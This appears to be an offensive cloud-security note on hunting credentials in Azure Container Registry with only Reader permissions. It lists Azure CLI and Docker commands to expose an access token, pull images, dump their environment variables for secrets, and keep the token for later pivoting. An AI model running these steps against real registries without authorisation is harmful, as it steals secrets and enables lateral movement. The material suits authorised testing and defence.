 # Hunting credentials in Azure Container Registry

### For many Azure services, Microsoft usually keeps a separation between management plane access and data plane access. This means that explicit permissions beyond the typical management roles are needed to access data stored within services. This architecture was not implemented for the ACR service. It is an interesting architecture choice, but Azure users with Reader permissions on any Azure container registries have rights to connect to the container registry and access images. These users do not have any rights to push modified images back to the registry, but they are able to download and run container images locally. This allows us, as attackers, to review the contents of the images and potentially find issues in the application code, access secrets used by the application, and pivot with those secrets into other applications and services. 

### The process to do this is very simple. As an authenticated user, with Reader or higher permissions on the registry, we can generate a Docker login from the Azure CLI.

## Steps

 - az login -u READER_USER@DOMAIN.LOCAL -p PASSWORD (Authenticate to the Azure environment using the reader role)

 - az acr list -o table (List the container registries in the subscription)

### Generate a Docker login for the registry

 - acr=ACR_NAME (Store the container registry in a variable)

 - loginserver=$(az acr login -n $acr --expose-token --query loginServer -o tsv)

 - accesstoken=$(az acr login -n $acr --expose-token --query accessToken -o tsv)

 - docker login $loginserver -u 00000000-0000-0000-0000-000000000000 -p $accesstoken

 - az acr repository list -n $acr (List the images in the container registry)

 - az acr repository show-tags -n $acr --repository REPOSITORY (List the tags for a specific container registry to enumerate image versions)

 - docker pull $loginserver/REPOSITORY:v1 (Pull the image from the container registry)

 - docker container run --rm $loginserver/REPOSITORY:v1 env (Check the downloaded image for sensitive credentials by listing our environment variables)

### Make note of the registry credentials for further usage

 - echo $loginserver

 - echo $accesstoken
   

